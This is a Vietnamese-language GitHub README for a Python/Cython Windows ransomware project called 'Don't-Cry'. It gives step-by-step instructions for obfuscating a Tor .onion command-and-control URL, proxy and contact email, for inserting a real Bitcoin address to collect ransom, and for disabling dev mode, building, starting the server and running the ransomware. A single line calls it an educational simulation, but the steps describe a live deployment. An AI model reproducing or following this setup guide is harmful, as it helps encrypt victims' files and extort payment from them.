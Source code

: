 <h1 align="center">Don't-Cry Ransomware</h1>
  
<div align="center">

  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
  <img src="https://img.shields.io/badge/Status-Temporarily--Inactive-orange" alt="Status">
</div>

![DCry](https://raw.githubusercontent.com/memecoder12345678/DCry-Ransomware/main/imgs/DCry.png)
Ransomware viết bằng Python 💀💀💀
## Cách sử dụng
* Mở file [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/src/DCry.py).
* Thay biến `YOUR_URL` bằng URL đã mã hóa sử dụng hàm `dx42` như sau:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Trước đó dùng hàm `ex42` từ module `edx42` để mã hóa URL.)
  
  Ví dụ:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Thay biến `YOUR_PROXY` tương tự với proxy đã mã hóa:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Thay `YOUR_BITCOIN_ADDRESS` bằng địa chỉ Bitcoin thật của bạn.
* Thay `YOUR_EMAIL_ADDRESS` tương tự bằng địa chỉ email đã mã hoá.
  ```python
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()
  ```
* Đặt `dev_mode = False` để tắt chế độ phát triển.
* Cài đặt các thư viện cần thiết với lệnh:
  ```bash
  pip install -r requirements.txt
  ```
* Biên dịch mã Cython bằng lệnh:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Chạy server với lệnh:
  ```bash
  python src/server.py
  ```
* Chạy ransomware với lệnh:
  ```bash
  python src/DCRY.py
  ```
* Chạy công cụ giải mã với lệnh:
  ```bash
  python src/decryptor.py
  ```
## Cảnh báo
> \[!WARNING]
> Dự án này là mô phỏng ransomware chỉ phục vụ mục đích giáo dục.
## Giấy phép
* Dự án này được cấp phép theo [Apache License 2.0](./LICENSE).
